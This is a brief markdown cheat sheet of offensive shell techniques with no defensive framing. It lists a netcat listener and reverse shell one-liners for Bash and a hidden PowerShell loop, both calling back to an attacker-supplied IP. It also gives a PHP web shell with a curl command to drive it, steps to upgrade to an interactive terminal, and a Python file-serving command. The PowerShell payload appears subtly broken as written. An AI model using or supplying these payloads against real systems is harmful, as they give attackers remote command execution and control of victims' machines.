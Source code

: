 # Shell stuff

## Reverse Shell ([Online App](https://www.revshells.com))
- netcat
```
nc -lvnp 1234
```
Payloads:
- Bash (Linux)
```
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc {MY IP} {PORT} >/tmp/f
```
- PowerShell (Windows)
```
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("{MY IP}",{PORT});$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

## Web Shell 
- web browser/curl
```
curl http://{YOURWEBSITE}/payload.php?cmd={COMMANDS}
```
Payloads:
```
<?php system($_REQUEST["cmd"]); ?>
```

## Getting interactive shell:
- In netcat
```
python -c 'import pty; pty.spawn("/bin/bash")'
```
> press `Ctrl +Z`
```
stty raw -echo
fg
```
> press `Enter`

## Uploading files
```
python -m http.server 8000
```
